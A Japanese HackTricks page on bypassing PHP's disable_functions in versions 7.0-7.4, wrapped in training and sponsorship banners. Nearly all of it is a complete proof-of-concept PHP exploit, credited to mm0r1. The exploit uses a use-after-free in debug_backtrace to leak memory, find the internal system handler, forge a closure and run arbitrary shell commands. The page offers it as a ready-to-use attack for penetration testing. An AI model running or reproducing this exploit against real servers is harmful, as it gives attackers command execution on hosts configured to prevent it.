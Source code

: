 # disable\_functions バイパス - PHP 7.0-7.4 (\*nix のみ)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## PHP 7.0-7.4 (\*nix のみ)

[https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)から
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
global $abc, $helper, $backtrace;

class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace(); # ;)
if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
$backtrace = debug_backtrace();
}
}
}

class Helper {
public $a, $b, $c, $d;
}

function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}

function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= chr($ptr & 0xff);
$ptr >>= 8;
}
return $out;
}

function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = chr($v & 0xff);
$v >>= 8;
}
}

function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}

function parse_elf($base) {
$e_type = leak($base, 0x10, 2);

$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);

for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type  = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);

if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
# handle pie
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
$text_size = $p_memsz;
}
}

if(!$data_addr || !$text_size || !$data_size)
return false;

return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'constant' constant check
if($deref != 0x746e6174736e6f63)
continue;
} else continue;

$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'bin2hex' constant check
if($deref != 0x786568326e6962)
continue;
} else continue;

return $data_addr + $i * 8;
}
}

function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) { # ELF header
return $addr;
}
}
}

function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);

if($f_name == 0x6d6574737973) { # system
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}

function trigger_uaf($arg) {
# str_shuffle prevents opcache string interning
$arg = str_shuffle(str_repeat('A', 79));
$vuln = new Vuln();
$vuln->a = $arg;
}

if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}

$n_alloc = 10; # increase this value if UAF fails
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle(str_repeat('A', 79));

trigger_uaf('x');
$abc = $backtrace[1]['args'][0];

$helper = new Helper;
$helper->b = function ($x) { };

if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}

# leaks
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;

# fake value
write($abc, 0x60, 2);
write($abc, 0x70, 6);

# fake reference
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);

$closure_obj = str2ptr($abc, 0x20);

$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}

if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}

if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}

if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}

# fake closure object
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}

# pwn
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4); # internal func type
write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

($helper->b)($cmd);
exit();
}
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
